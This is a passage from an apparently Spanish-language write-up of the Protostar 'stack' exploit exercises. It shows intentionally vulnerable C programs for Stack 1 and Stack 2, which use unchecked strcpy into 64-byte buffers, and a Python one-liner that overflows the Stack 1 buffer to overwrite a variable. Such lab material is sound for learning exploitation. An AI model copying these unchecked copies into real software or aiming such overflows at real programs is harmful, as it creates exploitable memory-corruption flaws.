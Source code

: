 ```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

Solución:

```
./stack1 $(python -c "print('A'*64 + '\x64\x63\x62\x61')")
```

## Stack 2
Código fuente:

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```
